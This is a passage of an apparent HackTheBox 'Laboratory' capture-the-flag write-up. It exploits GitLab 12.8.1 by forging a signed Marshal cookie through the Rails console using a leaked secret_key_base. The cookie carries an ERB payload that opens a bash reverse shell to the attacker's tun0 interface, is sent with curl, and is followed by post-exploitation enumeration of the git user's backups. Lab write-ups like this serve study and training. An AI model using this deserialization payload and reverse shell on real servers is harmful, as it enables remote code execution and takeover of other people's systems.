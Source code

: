	    export GITLAB_HOME=/srv/gitlab

		sudo docker run --detach \
		  --hostname gitlab.x00tex.com \
		  --publish 443:443 --publish 80:80 --publish 22:22 \
		  --name gitlab \
		  --restart always \
		  --volume $GITLAB_HOME/config:/etc/gitlab \
		  --volume $GITLAB_HOME/logs:/var/log/gitlab \
		  --volume $GITLAB_HOME/data:/var/opt/gitlab \
		  gitlab/gitlab-ce:12.8.1-ce.0

	    sudo docker exec -it gitlab /bin/bash

    * start run and stop gitlab 
	      
	      sudo docker start gitlab
	      sudo docker exec -it gitlab /bin/bash
	      sudo docker stop gitlab

  * Edit `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` file and change `secret_key_base` with box key.
  * open rails console

		gitlab-rails console
	    
* generating cookie

	  request = ActionDispatch::Request.new(Rails.application.env_config)
	  request.env["action_dispatch.cookies_serializer"] = :marshal
	  cookies = request.cookie_jar
	  erb = ERB.new("<%= `/bin/bash -c 'bash -i >& /dev/tcp/tun0/4141 0>&1'` %>")
	  depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@Result", ActiveSupport::Deprecation.new)
	  cookies.signed[:cookie] = depr
	  puts cookies[:cookie]


* send cookie to the server:

	  curl -k -vvv 'https://git.laboratory.htb/users/sign_in/' -b "experimentation_subject_id=<COOKIE>"

![](screenshots/git_pwn.gif)

## User esclate

* user git home is `/var/opt/gitlab` and there is a backups folder -
```diff
(remote) git@git.laboratory.htb:/$ cd
(remote) git@git.laboratory.htb:/var/opt/gitlab$ ls -la
total 96
drwxr-xr-x 20 root              root       4096 Dec  3 06:17 .
drwxr-xr-x  1 root              root       4096 Feb 24  2020 ..
+drwx------ 4 git               root       4096 Dec  3 11:00 backups
```
* in gitlab there is a gitlab-backup util -
```
(remote) git@git.laboratory.htb:/var/opt/gitlab$ gitlab-backup --help
Usage: gitlab-backup COMMAND [OPTIONS]

OPTIONS:

  -h, --help    Display this help message and exits. Use `COMMAND --help`
                for more information on a command.

COMMANDS:
  create        Creates a new backup.
  restore       Restores from a backup.
```